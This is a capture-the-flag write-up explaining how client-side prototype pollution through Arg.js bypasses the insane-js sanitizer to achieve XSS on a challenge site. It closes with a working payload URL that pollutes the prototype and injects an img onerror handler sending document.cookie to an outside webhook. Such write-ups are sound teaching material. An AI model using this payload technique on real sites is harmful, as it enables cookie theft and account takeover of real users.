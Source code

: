 # web/fancier-page
## Description
> No description.

> Flag: flag{prototype_pollution_kills_thousands_of_websites_each_year}

## How to solve
There is 'report to admin' feature on this website. So, there must be XSS things. If we look at the `/app/scripts/display.js` there is 2 imported js module(Arg-js and insane-js). 
```
import { default as Arg } from "https://cdn.jsdelivr.net/npm/@vunamhung/arg.js@1.4.0/+esm";
import { default as insane } from "https://cdn.jsdelivr.net/npm/insane@2.6.2/+esm";
```
> Arg-js is URL argument and parameter parser.

> insane-js is HTML sanitizer, similar to Dompurify.

We can't perform basic XSS due to insane-js sanitizer. But, we have Arg.js to perform client side prototype pollution. Check out this [awesome repository](https://github.com/BlackFan/client-side-prototype-pollution). Our idea is to perform client side prototype pollution to bypass the insane-js sanitizer.

If we look at the insane-js [source code](https://github.dev/bevacqua/insane/blob/master/sanitizer.js) below.
```
function parse(key) {
    ...
    var classesOk = (o.allowedClasses || {})[low] || [];
    var attrsOk = (o.allowedAttributes || {})[low] || [];
    ...
    if (lkey === 'class' && attrsOk.indexOf(lkey) === -1) {
        value = value.split(' ').filter(isValidClass).join(' ').trim();
        valid = value.length;
    } else {
        valid = attrsOk.indexOf(lkey) !== -1 && (attributes.uris[lkey] !== true || testUrl(value));
    }
    if (valid) {
        out(' ');
        out(key);
        if (typeof value === 'string') {
            out('="');
            out(he.encode(value));
            out('"');
        }
    }

    function isValidClass(className) {
        return classesOk && classesOk.indexOf(className) !== -1;
    }
}
```
It will check  `options.allowedClasses.<tag>` and `options.allowedAtrributes.<attr>`. Since, our default `options` looks like this :
```
const options = {
	allowedAttributes: {
		a: ["href"],
		abbr: ["title"],
		details: ["open"],
		"*": ["id", "dir"],
	},
	allowedClasses: {},
	allowedSchemes: ["http", "https"],
	allowedTags: [
		"a",
		"abbr",
		"article",
		"b",
		"blockquote",
		"br",
		"code",
		"del",
		"details",
		"div",
		"em",
		"h1",
		"h2",
		"h3",
		"h4",
		"h5",
		"h6",
		"hr",
		"i",
		"img",
		"ins",
		"kbd",
		"li",
		"main",
		"mark",
		"ol",
		"p",
		"pre",
		"q",
		"s",
		"section",
		"small",
		"span",
		"strike",
		"strong",
		"sub",
		"summary",
		"sup",
		"u",
		"ul",
	],
	filter: null,
	transformText: null,
};
```
It will sanitize the `<img src=x onerror=alert(1)>` completely. To bypass this, we can use prototype pollution. 

Our final payload looks like this :
```
http://fancier-page.hsctf.com/display.html?__proto__.img[0]=onerror&__proto__.img[1]=src&title=a&content=%3Cimg+src%3dx+onerror%3dwindow.location%3D%27http%3A%2F%2Fwebhook.site%2F0611881c-bc41-45f3-a8c9-de17092c579a%2F%3F%27%2Bdocument.cookie%3B%3E&background_color=%23ffffff&color=%23000000&font=Helvetica&font_size=16
``` 
